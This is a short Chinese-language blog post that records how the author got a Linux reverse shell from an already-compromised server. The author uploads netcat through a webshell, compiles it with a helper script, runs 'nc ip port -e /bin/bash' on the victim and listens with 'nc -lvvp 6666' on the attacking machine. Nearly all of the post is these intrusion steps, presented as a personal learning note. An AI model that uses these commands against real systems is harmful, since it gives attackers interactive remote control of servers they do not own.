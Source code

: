 ```yaml
---
title: 记一次linux反弹shell
date: 2018-01-27 12:30:53
tags:
	- notes
categories:
	- notes

---
```


![](https://ws1.sinaimg.cn/large/006Y6f53gy1fp83hz9p8dj30je08rwg2.jpg)

<!--more-->

Linux 反弹shell,一直都有听说过，可惜自己不会。今天受xz指点，学会了。特记录一下。

![](https://ws1.sinaimg.cn/large/006Y6f53ly1fnv2976wsfj30md03zjr7.jpg)


`root`权限，非常好，省得提权了。

由于Linux``我们在`webshell`里面是不好进行交互的，所以我们需要进行反弹`shell`操作。


首页我们通过`webshell`上传`nc`源码到`linux`服务器上

![](https://ws1.sinaimg.cn/large/006Y6f53ly1fnv2c7fxvbj30lf06e745.jpg)



然后我们进行解压、编译操作


 `tar -zxvf /tmp/nc/netcat.tar.gz -C /tmp/nc`


![](https://ws1.sinaimg.cn/large/006Y6f53ly1fnv2evqruxj30t50i50tb.jpg)


由于在webshell里面无法切换目录，而编译文件需要在源码目录下进行。
所以我们可以编写一个sh脚本，让它执行编译操作。


`/tmp/nc/netcat-0.7.1/./configure --prefix=/tmp/nc/netcat/ && make && make install`

![](https://ws1.sinaimg.cn/large/006Y6f53ly1fnv3drbz77j30hi0gj747.jpg)

![](https://ws1.sinaimg.cn/large/006Y6f53ly1fnv3ejo1y1j30hv07n746.jpg)


最后就是最重要的看点，`linux`反弹`shell`。

服务端执行如下命令：

    nc ip port -e /bin/bash

![](https://ws1.sinaimg.cn/large/006Y6f53ly1fnv3mcwt9ej30k1053wee.jpg)

攻击端进行监听：

    nc -lvvp 6666

![](https://ws1.sinaimg.cn/large/006Y6f53ly1fnv3mz4h1hj30gq03ojra.jpg)


反弹`shell`成功

![](https://ws1.sinaimg.cn/large/006Y6f53gy1fp83hz9p8dj30je08rwg2.jpg)

</br>
**总结**：

- 学会请教人，自己不会，但可以请教有经验的人把它学会。
- 方法很重要



